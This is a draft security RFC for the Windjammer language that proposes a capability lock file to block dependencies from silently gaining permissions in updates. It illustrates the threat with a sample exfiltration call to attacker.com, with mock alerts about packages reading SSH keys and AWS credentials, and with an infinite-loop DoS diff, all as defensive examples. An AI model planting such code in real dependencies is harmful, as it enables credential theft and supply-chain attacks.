

# WJ-SEC-03: Capability Lock File

**Status:** 🟡 Draft  
**Author:** Windjammer Team  
**Date:** 2026-03-21  
**Target:** v0.50 (with WJ-SEC-01)  
**Priority:** Critical  
**Depends On:** [WJ-SEC-01: Effect Capabilities](./WJ-SEC-01-effect-capabilities.md)

---

## Table of Contents

1. [Executive Summary](#executive-summary)
2. [Problem Statement](#problem-statement)
3. [Solution: The Capability Lock File](#solution-the-capability-lock-file)
4. [File Format Specification](#file-format-specification)
5. [Workflow Examples](#workflow-examples)
6. [Security Guarantees](#security-guarantees)
7. [Implementation Details](#implementation-details)
8. [Dependency Confusion Protection](#dependency-confusion-protection)
9. [Transitive Dependency Analysis](#transitive-dependency-analysis)
10. [Capability Revocation](#capability-revocation)
11. [Differential Analysis](#differential-analysis)
12. [Comparison with Other Lock Files](#comparison-with-other-lock-files)

---

## Executive Summary

**Goal:** Prevent capability escalation attacks where a dependency silently gains new permissions in an update.

**Core Idea:** On first build, the compiler auto-generates `.wj-capabilities.lock` that records the exact capabilities each dependency uses. On subsequent builds, the compiler verifies dependencies haven't gained new capabilities without explicit developer approval.

**Key Innovation:** Like `package-lock.json` locks dependency versions, `.wj-capabilities.lock` locks dependency **permissions**. You can't sneak in new capabilities without the developer noticing.

---

## Problem Statement

### The Capability Escalation Problem

**Credit:** Identified by Jeffrey Friedman during WJ-SEC-01 review (2026-03-21)

**Note:** This RFC solves the *update* problem. For *first-import* security, see [WJ-SEC-04: Capability Profiles](./WJ-SEC-04-capability-profiles.md).

### The Global Manifest Vulnerability

**Attack Scenario:**

```toml
# wj.toml (application manifest)
[security]
app_capabilities = ["fs_write:./logs/*", "net_egress:api.stripe.com"]
```

**Without per-dependency enforcement:**
1. Application legitimately uses `http-client` for Stripe API
2. Application adds `json-parser` (v1.0 is clean: `<logic_only>`)
3. Attacker compromises json-parser maintainer
4. Uploads v1.1 with: `http.post("https://attacker.com/steal", data)`
5. Compiler checks: "Does manifest allow `<net_egress>`?" **YES** (for http-client)
6. **Build succeeds. Attack succeeds.** 🚨

**Root Cause:** The global manifest doesn't track **which specific dependency** is allowed to use each capability. Malicious packages can piggyback on legitimate permissions.

### Why Per-Dependency Enforcement is Essential

**Principle of Least Privilege:** Each dependency should only get the **minimum** capabilities it needs, not the maximum the application uses.

**Example:**
- json-parser needs: `<logic_only>`
- http-client needs: `<net_egress:api.stripe.com>`
- logger needs: `<fs_write:./logs/*>`

Even though the **application** has all three capabilities, **each dependency** only gets its specific allowlist.

---

## Solution: The Capability Lock File

### Core Concept

The `.wj-capabilities.lock` file:
1. **Auto-generated** on first build (zero ceremony)
2. **Committed to git** (like package-lock.json)
3. **Validates dependencies** on every build
4. **Prevents escalation** when dependencies update

### Workflow



---

## File Format Specification

### `.wj-capabilities.lock` (TOML Format)

```toml
# .wj-capabilities.lock
# Auto-generated by Windjammer compiler
# DO NOT EDIT MANUALLY
# Commit this file to version control

lock_version = 1

[application]
# What the application code itself uses
verified = ["fs_read:./config/*", "net_egress:api.stripe.com"]

[dependencies.json-parser]
version = "1.0.0"
declared = ["logic_only"]         # From package metadata
verified = ["logic_only"]         # Compiler-verified actual usage
allowed = ["logic_only"]          # What we permit (≤ app_capabilities)
hash = "sha256:abc123..."         # Package content hash
first_seen = "2026-03-21T10:30:00Z"
last_updated = "2026-03-21T10:30:00Z"

[dependencies.http-client]
version = "2.5.0"
declared = ["net_egress"]
verified = ["net_egress:api.stripe.com", "net_egress:api.github.com"]
allowed = ["net_egress:api.stripe.com"]  # Restricted to Stripe only
hash = "sha256:def456..."
first_seen = "2026-03-21T10:30:00Z"
last_updated = "2026-03-21T10:30:00Z"
audit_log = [
    { date = "2026-03-21", action = "initial", reason = "Payment processing" }
]

[dependencies.logger]
version = "3.1.0"
declared = ["fs_write"]
verified = ["fs_write:./logs/app.log"]
allowed = ["fs_write:./logs/*"]
hash = "sha256:ghi789..."
first_seen = "2026-03-21T10:30:00Z"
last_updated = "2026-03-21T10:30:00Z"
```

### Field Definitions

| Field | Type | Description |
|-------|------|-------------|
| `version` | String | Exact dependency version |
| `declared` | Array | Capabilities from package metadata |
| `verified` | Array | Actual capabilities used (compiler analysis) |
| `allowed` | Array | What we permit (≤ app_capabilities) |
| `hash` | String | SHA-256 hash of package contents |
| `first_seen` | Timestamp | When first added |
| `last_updated` | Timestamp | Last lock file update |
| `audit_log` | Array | History of capability grants (optional) |

---

## Workflow Examples

### Scenario 1: Fresh Project (First Build)

**Developer action:**
```bash
wj new my-web-app
cd my-web-app
wj add json-parser http-client logger
wj build
```

**Compiler behavior:**
```
Analyzing dependencies...
  ├─> json-parser@1.0.0: requires <logic_only>
  ├─> http-client@2.5.0: requires <net_egress:api.stripe.com>
  └─> logger@3.1.0: requires <fs_write:./logs/*>

Generating .wj-capabilities.lock...
  ├─> Locked json-parser to <logic_only>
  ├─> Locked http-client to <net_egress:api.stripe.com>
  └─> Locked logger to <fs_write:./logs/*>

✅ Build successful
📋 Remember to commit .wj-capabilities.lock
```

**Result:** `.wj-capabilities.lock` created with all dependencies locked.

### Scenario 2: Benign Update (No Capability Change)

**Developer action:**
```bash
wj update logger  # v3.1.0 → v3.2.0
```

**Compiler behavior:**
```
Checking logger@3.2.0...
  ├─> Declared: [fs_write]
  ├─> Verified: [fs_write:./logs/app.log]
  ├─> Lock file: [fs_write:./logs/*]
  └─> Check: verified ⊆ allowed? ✅ YES

✅ Update successful (no capability changes)
```

**Result:** Build succeeds, lock file updated with new version only.

### Scenario 3: Malicious Update (Capability Escalation) 🚨

**Developer action:**
```bash
wj update json-parser  # v1.0.0 → v1.1.0 (malicious)
```

**Compiler behavior:**
```
Checking json-parser@1.1.0...
  ├─> Declared: [logic_only]  (LIES!)
  ├─> Verified: [logic_only, net_egress:attacker.com]  (TRUTH!)
  └─> Lock file: [logic_only]

🚨 SECURITY ALERT: Capability escalation detected

Dependency: json-parser
Old: 1.0.0 (capabilities: logic_only)
New: 1.1.0 (capabilities: logic_only, net_egress:attacker.com)

SUSPICIOUS BEHAVIOR DETECTED:
  ├─> Package DECLARES [logic_only] but USES [net_egress]
  ├─> Network access to unknown domain: attacker.com
  └─> This is UNUSUAL for a JSON parsing library

❌ Build failed
❌ Dependency NOT updated

Actions:
1. Review source: wj show json-parser@1.1.0
2. Check CVE database: wj security json-parser
3. Report suspicious package: wj report json-parser@1.1.0
4. Rollback: Package remains at v1.0.0 (safe)

DO NOT APPROVE unless you understand why network access is needed.
```

**Result:** Build fails. Developer is warned. Attack prevented.

### Scenario 4: Legitimate Capability Expansion

**Developer action:**
```bash
wj update http-client  # v2.5.0 → v3.0.0
```

**Compiler behavior:**
```
Checking http-client@3.0.0...
  ├─> Declared: [net_egress, fs_write]  # New: fs_write for caching
  ├─> Verified: [net_egress:api.stripe.com, fs_write:./cache/http/*]
  └─> Lock file: [net_egress:api.stripe.com]

⚠️  New capabilities required

Dependency: http-client
Version: 2.5.0 → 3.0.0
New capabilities: fs_write:./cache/http/*

Changelog excerpt:
  "v3.0.0: Added HTTP response caching to ./cache/"

This may be legitimate. Review before approving.

Action required:
  wj allow http-client fs_write:./cache/* --audit "HTTP response caching"
  OR
  wj deny http-client --keep 2.5.0
```

**Developer reviews changelog, approves:**
```bash
wj allow http-client fs_write:./cache/* --audit "HTTP response caching added in v3.0"
```

**Result:** Lock file updated, build succeeds, audit trail recorded.

### Scenario 5: Revoke Capabilities

**Developer realizes a dependency is over-privileged:**
```bash
# Restrict logger to specific file (not entire directory)
wj restrict logger fs_write:./logs/app.log
```

**Compiler behavior:**
```
Restricting logger capabilities...
  ├─> Current: [fs_write:./logs/*]
  ├─> New: [fs_write:./logs/app.log]
  └─> Testing build with restriction...

⚠️  Logger@3.1.0 writes to: ./logs/app.log, ./logs/debug.log

❌ Restriction failed: Logger uses fs_write:./logs/debug.log
   which exceeds the new allowlist

Options:
1. Allow both files: wj restrict logger fs_write:./logs/app.log fs_write:./logs/debug.log
2. Find alternative: wj search logger:no-filesystem
3. Fork and patch: Remove debug.log writing
```

**Result:** Prevents accidental over-restriction that would break builds.

---

## Security Guarantees

### 1. Capability Escalation Prevention

**Guarantee:** A dependency **cannot** gain new capabilities in an update without explicit developer approval.

**Enforcement:**
```
For each dependency update:
  IF new_verified ⊈ old_allowed THEN
    BUILD FAILS
    REQUIRE: wj allow <dep> <new-caps> --audit "reason"
  END IF
```

### 2. Dependency Isolation

**Guarantee:** One dependency **cannot** use capabilities granted to another dependency.

**Example:**
- json-parser is sandboxed to `<logic_only>`
- http-client is sandboxed to `<net_egress:api.stripe.com>`
- Even if app has both, json-parser cannot use network

### 3. Transparent Auditing

**Guarantee:** All capability grants are **visible** in lock file and git history.

**Audit trail:**
```toml
[dependencies.http-client]
audit_log = [
    { date = "2026-03-21", action = "initial", user = "jeff", reason = "Stripe payments" },
    { date = "2026-03-25", action = "expand", user = "jeff", reason = "Added GitHub API" },
]
```

**Git blame shows:**
- Who granted the capability
- When it was granted
- Why it was granted

### 4. Tamper Detection

**Guarantee:** Package content changes are detected via SHA-256 hashes.

**Enforcement:**
```
On build:
  actual_hash = sha256(package_contents)
  IF actual_hash ≠ lock_file.hash THEN
    ERROR: "Package contents changed without version bump"
    ACTION: "Run 'wj verify' to update hash or investigate tampering"
  END IF
```

---

## Implementation Details

### 1. Lock File Generation

**On first build or dependency add:**
```rust
fn generate_lock_file(deps: &[Dependency], app_caps: &Capabilities) -> LockFile {
    let mut lock = LockFile::new();
    
    for dep in deps {
        let declared = dep.metadata.capabilities;
        let verified = analyze_actual_usage(&dep.code);
        let allowed = min(verified, app_caps);  // Grant minimum necessary
        
        lock.add_dependency(LockEntry {
            name: dep.name,
            version: dep.version,
            declared,
            verified,
            allowed,
            hash: sha256(&dep.contents),
            first_seen: now(),
            last_updated: now(),
        });
    }
    
    lock
}
```

### 2. Lock File Validation (Every Build)

```rust
fn validate_lock_file(deps: &[Dependency], lock: &LockFile) -> Result<(), Error> {
    for dep in deps {
        let entry = lock.get_dependency(&dep.name)?;
        
        // Check version matches
        if dep.version != entry.version {
            // Dependency was updated - need to re-analyze
            return validate_dependency_update(dep, entry);
        }
        
        // Check hash (tamper detection)
        let actual_hash = sha256(&dep.contents);
        if actual_hash != entry.hash {
            return Err(Error::TamperDetected {
                dependency: dep.name,
                expected: entry.hash,
                actual: actual_hash,
            });
        }
        
        // Verify capabilities still match
        let current = analyze_actual_usage(&dep.code);
        if current != entry.verified {
            return Err(Error::CapabilitiesChanged {
                dependency: dep.name,
                lock_file: entry.verified,
                actual: current,
            });
        }
    }
    
    Ok(())
}
```

### 3. Dependency Update Flow

```rust
fn validate_dependency_update(new: &Dependency, old: &LockEntry) -> Result<(), Error> {
    let old_verified = &old.verified;
    let new_verified = analyze_actual_usage(&new.code);
    
    // Calculate capability diff
    let added = new_verified.difference(old_verified);
    let removed = old_verified.difference(new_verified);
    
    if !added.is_empty() {
        // Capability escalation detected
        return Err(Error::CapabilityEscalation {
            dependency: new.name,
            version_old: old.version,
            version_new: new.version,
            added_capabilities: added,
            
            // Helpful context
            changelog_url: get_changelog_url(&new),
            severity: assess_severity(&added),  // High if net_egress added
        });
    }
    
    if !removed.is_empty() {
        // Capability reduction (safe)
        info!("Dependency {} reduced capabilities: {:?}", new.name, removed);
    }
    
    Ok(())
}
```

---

## Workflow Examples

### Example 1: Initial Setup

```bash
# Create new project
wj new secure-api
cd secure-api

# Define application capabilities
cat > wj.toml <<EOF
[package]
name = "secure-api"
version = "0.1.0"

[security]
mode = "restrictive"
app_capabilities = [
    "fs_read:./config/*",
    "fs_write:./logs/*",
    "net_ingress:0.0.0.0:8080",
    "net_egress:db.example.com",
]
EOF

# Add dependencies
wj add actix-web sqlx serde_json

# First build
wj build
```

**Output:**
```
Analyzing dependencies...

actix-web@4.0.0
  ├─> Declared: [net_ingress]
  ├─> Verified: [net_ingress:0.0.0.0:8080]
  └─> Allowed: [net_ingress:0.0.0.0:8080] ✅

sqlx@0.7.0
  ├─> Declared: [net_egress]
  ├─> Verified: [net_egress:db.example.com:5432]
  └─> Allowed: [net_egress:db.example.com] ✅

serde_json@1.0.0
  ├─> Declared: [logic_only]
  ├─> Verified: [logic_only]
  └─> Allowed: [logic_only] ✅

Generated .wj-capabilities.lock (3 dependencies)
✅ Build successful

📋 Commit .wj-capabilities.lock to version control:
   git add .wj-capabilities.lock
   git commit -m "chore: Add capability lock file"
```

### Example 2: Security Alert on Update

```bash
wj update serde_json  # 1.0.0 → 1.0.1 (malicious)
```

**Output:**
```
🚨 SECURITY ALERT: Capability escalation detected

Dependency: serde_json
Version: 1.0.0 → 1.0.1
Changed: 2 days ago

CAPABILITY CHANGES:
  + net_egress:collector.malicious.com
  + fs_read:~/.aws/credentials

ANALYSIS:
  ├─> Package declared: [logic_only]  ⚠️  LIES
  ├─> Actual usage: [logic_only, net_egress, fs_read]
  └─> Lock file allows: [logic_only]

RED FLAGS:
  🚩 Network access added (suspicious for JSON parser)
  🚩 Reading AWS credentials (EXTREMELY suspicious)
  🚩 Declared capabilities don't match actual usage (LYING)

❌ Build failed
❌ Update blocked

Actions:
1. Review source code: wj source serde_json@1.0.1
2. Report to security: wj report serde_json@1.0.1 --reason "Credential theft"
3. Stay on safe version: Package remains at 1.0.0

DO NOT APPROVE THIS UPDATE.
```

**Result:** Attack prevented. Developer is warned. Package not updated.

### Example 3: Legitimate Update with New Capability

```bash
wj update http-client  # 2.5.0 → 3.0.0
```

**Output:**
```
ℹ️  Capability change detected

Dependency: http-client
Version: 2.5.0 → 3.0.0
Changelog: https://github.com/http-client/releases/v3.0.0

CAPABILITY CHANGES:
  + fs_write:./cache/http/*

REASON (from changelog):
  "v3.0.0: Added HTTP response caching for performance"

ANALYSIS:
  ├─> Package declared: [net_egress, fs_write]  ✅ Honest
  ├─> Actual usage: [net_egress:..., fs_write:./cache/http/*]
  └─> Lock file allows: [net_egress:...]

This appears legitimate but requires approval.

Approve update?
  wj allow http-client fs_write:./cache/* --audit "Response caching (v3.0)"
  OR
  wj deny http-client --keep 2.5.0
```

**Developer reviews, approves:**
```bash
wj allow http-client fs_write:./cache/* --audit "Response caching added in v3.0"
```

**Output:**
```
✅ Capability granted to http-client
   + fs_write:./cache/*
   Audit: "Response caching added in v3.0"

Updated .wj-capabilities.lock
✅ Build successful

📋 Commit the updated lock file:
   git add .wj-capabilities.lock
   git commit -m "chore: Allow http-client response caching"
```

### Example 4: Suspicious Pattern Detection

```bash
wj update colors  # 1.0.0 → 1.1.0
```

**Output:**
```
🚨 HIGH SEVERITY ALERT: Supply chain attack pattern detected

Dependency: colors
Version: 1.0.0 → 1.1.0
Package type: Terminal formatting
Expected capabilities: [logic_only]

CAPABILITY CHANGES:
  + net_egress:*.amazonaws.com  🚩
  + fs_read:~/.ssh/*            🚩🚩🚩
  + fs_read:~/.aws/*            🚩🚩🚩

AUTOMATIC SECURITY ANALYSIS:
  ├─> Reading SSH keys: EXTREMELY suspicious
  ├─> Reading AWS credentials: EXTREMELY suspicious
  ├─> Network access: Unusual for terminal library
  └─> Pattern matches known supply chain attacks

SEVERITY: CRITICAL
CONFIDENCE: 99% malicious

❌ Build failed
❌ Update blocked
📣 Automatically reported to Windjammer security team

This update has been flagged for investigation.
Recommend: Stay on 1.0.0 or find alternative package.
```

**Result:** ML-based heuristics detect obvious attacks. Build fails. Security team notified.

---

## Security Guarantees

### Mathematical Invariants

**Invariant 1:** Dependency Capability Bound
```
∀ dependency d:
  verified_capabilities(d) ⊆ allowed_capabilities(d) ⊆ app_capabilities
```

**Invariant 2:** No Silent Escalation
```
∀ dependency d, update u:
  IF verified(d, u) ⊈ allowed(d) THEN
    build_fails ∧ requires_approval
```

**Invariant 3:** Audit Trail Completeness
```
∀ capability grant g:
  ∃ audit_entry(date, user, reason) ∈ lock_file.audit_log
```

### Attack Resistance

| Attack Type | Prevention Mechanism |
|-------------|---------------------|
| **Capability escalation** | Build fails if new capabilities detected |
| **Package tampering** | SHA-256 hash verification |
| **Transitive attacks** | Full dependency tree analyzed |
| **Time-of-check/time-of-use** | Hash checked at compile time |
| **Capability lying** | Declared vs verified mismatch flagged |

---

## Dependency Confusion Protection

### The Attack Vector

**Problem:** Attacker publishes malicious package with same name as internal package.

**Attack scenario:**
```bash
# Company has internal package "json-parser" (private registry)
# Attacker publishes "json-parser" to public registry (crates.io)
# Developer's wj.toml doesn't specify registry

wj add json-parser
# Which one? Public (malicious) might be checked first!
```

### Solution: Registry Scoping & Pinning

**Scoped packages:**
```toml
# wj.toml
[dependencies]
"@mycompany/json-parser" = "1.0.0"  # Private registry (scoped)
"json-parser" = "1.0.0"  # Public registry (unscoped)
```

**Registry prioritization:**
```toml
# wj.toml
[registries]
mycompany = { url = "https://registry.mycompany.internal", priority = 1 }
crates-io = { url = "https://crates.io", priority = 2 }

[dependencies]
json-parser = { version = "1.0.0", registry = "mycompany" }  # Explicit
http-client = "2.0.0"  # Uses priority order (mycompany first, then crates-io)
```

**Lock file enforcement:**
```toml
# .wj-capabilities.lock
[dependencies.json-parser]
version = "1.0.0"
registry = "mycompany"  # Locked to specific registry
registry_url = "https://registry.mycompany.internal"
hash = "sha256:abc123..."

# If attacker tries to substitute from public registry:
# Build fails: "Registry mismatch: expected mycompany, got crates-io"
```

**Audit trail:**
```bash
wj audit registries

Package source audit:
├─> json-parser@1.0.0
│   ├─> Registry: mycompany (https://registry.mycompany.internal)
│   ├─> Verified: ✅ (matches lock file)
│   └─> Hash: sha256:abc123...
│
├─> http-client@2.0.0
│   ├─> Registry: crates-io (https://crates.io)
│   ├─> Verified: ✅
│   └─> Hash: sha256:def456...
│
└─> rogue-parser@1.0.0
    ├─> Registry: crates-io (https://crates.io)
    ├─> Expected: mycompany ❌
    └─> WARNING: Potential dependency confusion attack!
```

---

## Transitive Dependency Analysis

### The Problem

**Direct dependencies are reviewed, but transitive dependencies might be malicious:**

```
my-app (I review this)
├─> trusted-lib@1.0.0 (I review this)
│   └─> helper-lib@2.0.0 (transitive, maybe I don't notice?)
│       └─> malicious-util@1.0.0 (deeply nested, invisible!)
```

### Solution: Full Dependency Tree Analysis

**Lock file tracks ALL dependencies (direct + transitive):**
```toml
# .wj-capabilities.lock
[dependencies.trusted-lib]
version = "1.0.0"
depth = 1  # Direct dependency
allowed = ["fs_read:./config/*"]
dependencies = ["helper-lib"]  # Tracks what it depends on

[dependencies.helper-lib]
version = "2.0.0"
depth = 2  # Transitive (via trusted-lib)
allowed = ["logic_only"]
dependencies = ["malicious-util"]
required_by = ["trusted-lib"]  # Who pulls this in

[dependencies.malicious-util]
version = "1.0.0"
depth = 3  # Deeply nested
allowed = ["logic_only"]  # Initially clean
required_by = ["helper-lib"]
```

**Visibility command:**
```bash
wj tree --security

my-app
├─> trusted-lib@1.0.0 [fs_read:./config/*]
│   └─> helper-lib@2.0.0 [logic_only]
│       └─> malicious-util@1.0.0 [logic_only] ⚠️  DEEP (depth 3)
├─> http-client@2.0.0 [net_egress:api.example.com]
└─> logger@1.0.0 [fs_write:./logs/*]

Security summary:
├─> Total dependencies: 4 (1 direct, 3 transitive)
├─> Maximum depth: 3 (malicious-util)
├─> Total capabilities: 3 distinct
└─> Deep dependencies (depth >2): 1 ⚠️  Review recommended
```

**Transitive capability escalation detection:**
```bash
# malicious-util@1.1.0 adds network access
wj update helper-lib  # Pulls in malicious-util@1.1.0

🚨 TRANSITIVE DEPENDENCY ESCALATION

Package: malicious-util (transitive via helper-lib)
Old: 1.0.0 [logic_only]
New: 1.1.0 [logic_only, net_egress:attacker.com]

Dependency chain:
  my-app → trusted-lib → helper-lib → malicious-util

This is a DEEPLY NESTED dependency (depth 3).
Even though you didn't directly add it, it can still attack you.

Action required:
1. Review: wj show malicious-util@1.1.0
2. Block: wj deny malicious-util@1.1.0
3. Alternative: wj search helper-lib:no-network-deps
```

**Capability aggregation:**
```bash
wj caps aggregate

Aggregated capabilities by path:

trusted-lib (direct):
├─> Own capabilities: [fs_read:./config/*]
├─> Transitive capabilities: [logic_only] (from helper-lib, malicious-util)
└─> Total exposure: [fs_read:./config/*, logic_only]

If malicious-util gains net_egress:
└─> Total exposure: [fs_read:./config/*, logic_only, net_egress] ⚠️
    Explanation: trusted-lib could now read configs AND send to network
```

---

## Capability Revocation

### The Need

**When a package is discovered to be malicious AFTER installation, respond quickly.**

### Registry Revocation System

**Registry publishes revocation:**
```json
// Registry API: /api/v1/revocations
{
  "package": "colors",
  "version": "1.4.1",
  "reason": "Malicious code: infinite loop DoS attack",
  "severity": "critical",
  "cve": "CVE-2026-12345",
  "revoked_at": "2026-03-21T10:30:00Z",
  "safe_versions": ["1.4.0", "1.4.2"],
  "alternative_packages": ["chalk", "ansi-colors"]
}
```

**Build-time checking:**
```bash
wj build

Checking for revocations...

🚨 CRITICAL: Revoked dependency detected

Package: colors@1.4.1
Reason: Malicious code (DoS attack via infinite loop)
Revoked: 2026-03-21
CVE: CVE-2026-12345
Severity: CRITICAL

Your code uses this package:
├─> src/main.wj:12 (import colors)
├─> src/ui.wj:45 (colors.red())
└─> 8 total usages

❌ Build blocked

Actions required (choose one):
1. Downgrade to safe version:
   wj add colors@1.4.0

2. Upgrade to patched version:
   wj add colors@1.4.2

3. Switch to alternative:
   wj add chalk  # (recommended alternative)
   wj remove colors

4. Remove functionality:
   wj remove colors

Cannot proceed until revoked package is removed.
```

**Revocation cache:**
```toml
# ~/.wj/revocations-cache.toml (updated hourly)
[revocations.colors]
version = "1.4.1"
revoked_at = "2026-03-21T10:30:00Z"
severity = "critical"
cve = "CVE-2026-12345"

[revocations.event-stream]
version = "3.3.6"
revoked_at = "2018-11-26T08:00:00Z"
severity = "critical"
cve = "CVE-2018-3721"
```

**CI/CD integration:**
```yaml
# .github/workflows/security.yml
name: Security Checks
on: [push, pull_request, schedule]

jobs:
  revocation-check:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2
      - run: wj check-revocations --fail-on-critical
      # Fails if any dependencies are revoked
```

---

## Differential Analysis

### The Need

**Understand exactly what changed between package versions before approving updates.**

### Version Comparison

**Compare capabilities:**
```bash
wj diff colors@1.4.0 colors@1.4.1

═══════════════════════════════════════════
PACKAGE DIFF: colors@1.4.0 → colors@1.4.1
═══════════════════════════════════════════

CAPABILITY CHANGES:
├─> Added: spawn (process spawning) 🚩
├─> Added: net_egress:* (unrestricted network) 🚩🚩🚩
└─> Removed: (none)

CODE CHANGES:
├─> New function: getRandomColor()
│   └─> Contains: while (true) { ... } ⚠️  INFINITE LOOP
│
├─> Modified: colorize()
│   └─> Now calls: getRandomColor()
│
└─> New dependencies: (none)

SECURITY ANALYSIS:
├─> Infinite loop detected (DoS risk)
├─> Unrestricted network access (exfiltration risk)
├─> Process spawning (arbitrary code execution risk)
└─> Risk level: CRITICAL

STATISTICS:
├─> Lines added: 47
├─> Lines removed: 3
├─> Functions added: 1
├─> Cyclomatic complexity: +25

RECOMMENDATION: 🚨 DO NOT UPGRADE
This version exhibits malicious behavior patterns.

Actions:
1. Report: wj report colors@1.4.1 --reason "DoS + network access"
2. Stay on: colors@1.4.0 (safe version)
3. Alternative: wj search colors:safe
```

**Detailed code diff:**
```bash
wj diff colors@1.4.0 colors@1.4.1 --code

File: src/lib.wj

@@ -10,6 +10,18 @@
 pub fn colorize(text: str, color: Color) -> str {
-    format!("\x1b[{}m{}\x1b[0m", color.code(), text)
+    // Call new helper
+    let randomized = getRandomColor()
+    format!("\x1b[{}m{}\x1b[0m", randomized.code(), text)
 }

+// NEW FUNCTION (SUSPICIOUS!)
+fn getRandomColor() -> Color {
+    // Infinite loop (DoS attack)
+    while (true) {
+        println!("LIBERTY LIBERTY LIBERTY")
+    }
+}
```

**Aggregate historical changes:**
```bash
wj history colors --security

colors capability history:

v1.0.0 (2020-01-01): [logic_only]
v1.1.0 (2020-06-01): [logic_only]
v1.2.0 (2021-01-01): [logic_only]
v1.3.0 (2021-06-01): [logic_only]
v1.4.0 (2022-01-01): [logic_only]
v1.4.1 (2022-01-10): [logic_only, spawn, net_egress] 🚨 ESCALATION

Trend analysis:
├─> Stable for 2 years (v1.0.0 - v1.4.0)
├─> Sudden escalation in v1.4.1 (10 days after v1.4.0)
└─> Pattern: Maintainer account likely compromised

Recommendation: Avoid v1.4.1, use v1.4.0 or find alternative
```

---

## Comparison with Other Lock Files

### package-lock.json (npm)

**What it locks:** Dependency versions and resolved URLs

**What it doesn't lock:** Permissions, capabilities, security

**Limitation:** Can't prevent malicious code in dependencies

### Cargo.lock (Rust)

**What it locks:** Dependency versions and checksums

**What it doesn't lock:** I/O permissions (Rust has ambient authority)

**Limitation:** All dependencies get full system access

### .wj-capabilities.lock (Windjammer)

**What it locks:** Versions + capabilities + verified usage + hashes

**Innovation:** Security properties are locked, not just versions

**Benefit:** Supply chain attacks become **build failures**, not runtime exploits

---

## CLI Commands

### Core Commands

```bash
# Generate or update lock file
wj lock

# Verify lock file integrity
wj lock verify

# Show dependency capabilities
wj show <dep>

# Grant new capability to dependency
wj allow <dep> <capability> --audit "reason"

# Revoke capability from dependency
wj restrict <dep> <capability>

# Deny update (stay on current version)
wj deny <dep> --keep <version>

# View audit trail
wj audit <dep>

# Security check all dependencies
wj security check

# Report suspicious package
wj report <dep>@<version> --reason "description"
```

### Advanced Commands

```bash
# Show capability diff for pending update
wj diff <dep>

# Batch approve after review
wj approve-all --audit "Weekly dependency update - reviewed"

# Export security report
wj security report --format json > security-audit.json

# Check for known CVEs
wj security scan
```

---

## Open Questions

### 1. Granularity of Capabilities

**Question:** How specific should capability restrictions be?

**Options:**
- Coarse: `fs_write` (any filesystem write)
- Medium: `fs_write:./logs/*` (directory-level)
- Fine: `fs_write:./logs/app.log` (file-level)

**Recommendation:** Support all three. Default to medium (directory-level), allow fine-grained for security-critical apps.

### 2. Transitive Dependency Capabilities

**Question:** If A depends on B depends on C, and C uses `<net_egress>`, is A responsible?

**Options:**
- **A:** A must declare all transitive capabilities (hard to track)
- **B:** Each level locks independently (simpler)
- **C:** Flatten the tree (all deps at same level)

**Recommendation:** B (each level locks independently). A's lock file records B's capabilities, B's lock file records C's capabilities.

### 3. Capability Wildcards

**Question:** Should we allow wildcards in restrictions?

**Examples:**
- `net_egress:*.stripe.com` - All Stripe subdomains
- `fs_read:./data/**/*.json` - Recursive JSON files
- `net_egress:192.168.0.0/16` - Local network

**Recommendation:** Yes, with clear wildcard semantics. Warn if wildcard is too broad.

### 4. Emergency Override

**Question:** What if you need to bypass security checks temporarily?

**Options:**
- **A:** `wj build --unsafe` (bypasses all checks) 
- **B:** `wj allow-all --temporary` (must revert before commit)
- **C:** No override (security cannot be disabled)

**Recommendation:** B with CI check that fails if `.wj-capabilities.lock` has `temporary: true`.

---

## Success Metrics

### Security Metrics

- **Attacks Prevented:** Number of malicious updates blocked
- **False Positives:** Legitimate updates incorrectly flagged
- **Detection Rate:** Percentage of capability escalations caught

### Developer Experience Metrics

- **Initial Overhead:** Time to set up first lock file (goal: <1 minute)
- **Update Friction:** Time to approve legitimate capability changes (goal: <30 seconds)
- **False Alert Rate:** Percentage of benign updates flagged (goal: <5%)

### Goals

- **Phase 1 (v0.50):** Detect 95% of obvious escalations (net_egress, fs_read)
- **Phase 2 (v0.51):** <10% false positive rate
- **Phase 3 (v0.52):** ML-based heuristics for suspicious patterns

---

## References

- **npm package-lock.json:** https://docs.npmjs.com/cli/v9/configuring-npm/package-lock-json
- **Cargo.lock:** https://doc.rust-lang.org/cargo/guide/cargo-toml-vs-cargo-lock.html
- **Deno lock file:** https://deno.land/manual/basics/modules/integrity_checking
- **Software Supply Chain Attacks:** "Backstabber's Knife Collection" (IEEE S&P 2020)
- **Capability Confinement:** Mark Miller, "Robust Composition" (PhD Thesis, 2006)
- **WJ-SEC-01:** [Effect Capabilities](./WJ-SEC-01-effect-capabilities.md)
- **WJ-SEC-04:** [Capability Profiles](./WJ-SEC-04-capability-profiles.md) - First-import security

---

## Appendix: File Format Schema

